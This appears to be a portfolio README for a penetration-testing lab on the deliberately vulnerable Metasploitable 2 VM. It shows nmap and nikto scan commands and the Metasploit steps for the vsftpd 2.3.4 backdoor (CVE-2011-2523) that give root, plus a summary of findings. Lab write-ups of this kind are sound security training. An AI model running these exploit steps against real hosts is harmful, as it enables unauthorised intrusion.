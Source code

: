 # 🛡️ Metasploitable 2 – Vulnerability Assessment & Penetration Testing (VAPT)

This project demonstrates a **full penetration testing workflow** on Metasploitable 2, a deliberately vulnerable VM.  
The goal was to simulate a real-world **Vulnerability Assessment and Penetration Test (VAPT)** and produce a consultancy-style report.

---

## 🔹 Project Roadmap

![Project Roadmap](assets/roadmap_infographic.png)

---

## 🔹 Steps Performed

### 1️⃣ Reconnaissance (Nmap)
- Scanned target IP for open ports and services
```bash
nmap -sV <target-ip> -oN nmap_scan.txt
```

### 2️⃣ Vulnerability Scanning
- Nmap vulnerability scripts
```bash
nmap -sV --script vuln <target-ip> -oN vuln_results.txt
```
- Nikto web scan
```bash
nikto -h http://<target-ip> -output nikto_results.txt
```

### 3️⃣ Exploitation (Metasploit)
- Exploited **vsftpd 2.3.4 backdoor (CVE-2011-2523)**
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <target-ip>
run
```
- Verified root access with:
```bash
whoami
```

### 4️⃣ Reporting
- Documented findings, CVEs, and remediation
- Delivered a **professional consultancy-style report (PDF)**

---

## 🔹 Deliverables

📄 [Full Report (PDF)](report/Penetration Testing Report – Metasploitable 2 Lab.pdf)  
🖼️ [Roadmap Infographic](assets/roadmap_infographic.png)  
📸 [Proof Screenshots](screenshots)  

---

## 🔹 Tools Used
- Kali Linux  
- Nmap  
- Nikto  
- Metasploit Framework  

---

## 🔹 Key Findings
- **Critical:** FTP backdoor (vsftpd 2.3.4 – CVE-2011-2523) → Remote root access  
- **High:** Outdated Apache 2.2.8 & PHP 5.2.4  
- **Medium:** Missing HTTP security headers  

---

## 🔹 Author
👤 **Gufran Ahmed**  
🔗 [LinkedIn](https://www.linkedin.com/in/gufran-uh/)
